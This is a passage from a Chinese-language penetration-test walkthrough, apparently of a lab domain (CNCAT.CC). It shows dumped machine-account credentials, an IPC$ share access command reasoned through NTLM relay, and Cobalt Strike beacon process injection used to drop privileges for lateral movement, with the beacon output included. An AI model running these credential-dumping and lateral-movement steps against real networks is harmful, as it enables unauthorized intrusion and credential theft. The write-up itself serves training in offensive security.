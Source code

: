 ```
	 * Username : 12server-ex13$
	 * Domain   : CNCAT.CC
	 * Password : 5e 3b 1b 7e 57 5b 89 33 d6 1f c9 77 99 f5 ba 3e f7 9c 61 c1 d1 12 b6 ab 9c 13 54 8c 64 b9 a6 1c ac 36 be c2 36 99 e9 00 4f 66 f8 69 5e 9f 1b 08 ed 18 ff f1 ee cc 3f 53 c2 ad d0 60 fb 8b bc 17 cc 06 d8 76 9f 91 67 01 e1 f1 46 ec 08 e2 0e c6 1e 4f eb f3 59 24 81 f2 bb b6 2a da 94 0d 7a 40 ac a9 b2 e9 c8 80 2e 78 8d bc 88 eb 37 db 1d fe 33 6b 0d bc 18 eb c5 04 2b 48 7a c8 47 d1 72 ae c0 66 23 6e 86 a3 ed e2 e3 96 0b 1d 1b 88 b6 ec e7 66 84 ea 68 f3 81 77 77 7c 7c 3c 83 a6 64 18 c0 57 dc 52 a9 d4 27 42 01 27 4e b3 90 68 c6 de ef 48 03 fa fa 44 64 e6 b3 a7 98 a1 a6 a0 7f 78 78 64 1e 2b 26 ef c3 1f b1 46 20 94 dc b5 c0 ad 7e 00 fc ff d4 f4 74 bc 90 82 92 25 d7 14 16 2e 3c c8 42 9b c2 51 64 00 94 5b 2b 74 e5 72 ab f9 
	ssp :	
	credman :	
```

## 横向移动

1、ipc 空密码连接

空密码 ipc 连接，还是那个道理（NLTM重放攻击）NLTM认证会使用**原主机的账号密码**去比对**目标机的账号密码**，当然也使用 ldap,ews 等协议时去比对也一样。当用户名和密码都一样时比对成功，就可以访问目录执行命令了。这里不需要知道目标机甚至已攻陷主机的账号密码，直接执行命令去比对即可。

```
dir \\10.10.10.201\c$\users\administrator\
```

2、降权

这里有个小问题，由于我们在 12server-ex13 上的 cs 里的权限为 system，所以我们要降权 降到当前域用户权限，即这里的 cncat\administrator 权限，在12server-ex13 的 system 权限的 beacon 里进行进程注入获得了 cncat\administrator 权限 

```
beacon> inject 236 x64 正向
[*] Tasked beacon to inject windows/beacon_bind_tcp (0.0.0.0:1234) into 236 (x64)
[+] host called home, sent: 266800 bytes
[+] established link to child beacon: 10.10.10.209
```

<img src=".\图片\Snipaste_2023-05-17_13-35-50.png" alt="Snipaste_2023-05-17_13-35-50" style="zoom:67%;" />
